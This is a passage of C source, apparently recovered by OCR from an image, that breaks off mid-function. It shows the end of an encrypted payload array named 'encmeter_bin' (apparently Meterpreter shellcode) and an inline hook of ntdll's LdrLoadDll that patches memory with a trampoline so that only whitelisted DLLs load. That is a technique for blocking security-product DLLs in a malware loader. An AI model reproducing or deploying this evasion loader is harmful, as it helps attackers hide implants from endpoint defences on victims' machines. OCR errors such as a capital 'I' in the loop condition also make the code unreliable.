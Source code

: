 ```
  0x0d, 0x77, 0xb8, 0xab, 0x7c, 0xe2, 0x64, 0x26, 0x37, 0x76, 0x85, 0x92,
  0x91, 0x2e, 0x62, 0x25, 0x6b, 0x3e, 0xd5, 0xf2, 0xf0, 0x9a, 0xda, 0xc3,
  0x60, 0x90, 0xca, 0x00, 0x04, 0x19
};
unsigned int encmeter_bin_len = 510;
/****************************************************************************************************/

NTSTATUS __stdcall _LdrLoadDll(PWSTR SearchPath OPTIONAL, PULONG DllCharacteristics OPTIONAL, PUNICODE_STRING DllName, PVOID *BaseAddress)
{
    INT i;
    DWORD dwOldProtect;
    BOOL bAllow = FALSE;
    DWORD dwbytesWritten;
    CHAR cDllName[MAX_PATH];

    // change to a char
    sprintf(cDllName, "%S", DllName->Buffer);

    for (i = 0; I < dwAllowDllCount; i++)
    {
        // is it on the whitelist
        if (strcmp(cDllName, cAllowDlls[i]) == 0)
        {
            bAllow = TRUE;

            printf("Allowing DLL: %s\\n", cDllName);

            // repatch LdrLoadDll and call it
            VirtualProtect(lpAddr, sizeof(OriginalBytes), PAGE_EXECUTE_READWRITE, &dwOldProtect);
            memcpy(lpAddr, OriginalBytes, sizeof(OriginalBytes));
            VirtualProtect(lpAddr, sizeof(OriginalBytes), dwOldProtect, &dwOldProtect);

            LdrLoadDll_ LdrLoadDll = (LdrLoadDll_)GetProcAddress(LoadLibrary("ntdll.dll"), "LdrLoadDll");

            LdrLoadDll(SearchPath, DllCharacteristics, DllName, BaseAddress);

            // then hook it again
            HookLoadDll(lpAddr);
        }

    }

    if (!bAllow)
    {
        printf("Blocked DLL: %s\\n", cDllName);
    }

    return TRUE;
}

VOID HookLoadDll(LPVOID lpAddr)
{
    DWORD oldProtect, oldOldProtect;
    void *hLdrLoadDll = &_LdrLoadDll;

    // our trampoline
    unsigned char boing[] = { 0x49, 0xbb, 0xde, 0xad, 0xc0, 0xde, 0xde, 0xad, 0xc0, 0xde, 0x41, 0xff, 0xe3 };

    // add in the address of our hook
```